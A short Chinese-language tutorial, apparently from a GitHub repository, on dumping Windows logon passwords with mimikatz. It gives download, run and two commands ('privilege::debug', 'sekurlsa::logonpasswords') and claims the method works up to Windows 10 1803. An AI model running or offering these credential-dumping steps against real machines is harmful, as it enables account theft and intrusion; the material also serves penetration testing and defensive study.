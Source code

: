 # mimikatz破解Windows密码
1. 下载[mimikatz](https://github.com/gentilkiwi/mimikatz/releases)
2. 运行`mimikatz.exe`,以Windows 7 x64旗舰版为例
3. 两行完事
    ```
    privilege::debug
    sekurlsa::logonpasswords
    ```
    ![](pic/1.png)  
    对于目前最新的Windows 10 1803也是适用的